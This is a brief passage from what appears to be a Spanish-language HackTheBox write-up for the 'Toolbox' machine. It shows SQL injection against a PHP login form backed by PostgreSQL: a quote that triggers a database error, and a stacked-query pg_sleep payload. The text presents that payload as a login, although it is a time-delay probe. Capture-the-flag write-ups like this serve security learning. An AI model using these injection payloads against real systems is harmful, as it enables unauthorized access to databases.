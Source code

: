 <img src="/writeups/assets/img/Toolbox-htb/2.png" alt="">

Introduzco una comilla y veo un error de PostgreSQL

```null
username=admin'&password=admin
```

```null
</b>:  pg_num_rows() expects parameter 1 to be resource, bool given in <b>/var/www/admin/index.php</b>
```

Me puedo loggear con la siguiente query:

```null
username=';select pg_sleep(10);-- -&password='
```
